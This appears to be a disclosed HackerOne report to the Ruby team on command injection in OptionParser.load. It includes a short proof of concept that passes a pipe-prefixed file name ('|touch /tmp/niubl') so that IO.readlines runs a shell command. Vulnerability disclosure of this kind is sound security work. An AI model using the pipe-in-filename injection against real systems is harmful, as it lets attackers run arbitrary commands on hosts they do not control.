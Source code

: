 # Command injection in OptionParser.load

## Report Details
- **Report ID**: 1090678
- **URL**: https://hackerone.com/reports/1090678
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-30T06:14:43.082Z
- **Disclosed**: 2021-03-07T11:45:47.187Z

## Reporter
- **Username**: piao
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
OptionParser.load function use IO.readlines to read file, which can inject `| command ` to exec command. 
poc:
```
require 'optparse'

OptionParser.new do |opts|
  opts.load("|touch /tmp/niubl")
end.parse!
```

## Impact

The command may be executed unintentionally.

## Attachments
No attachments
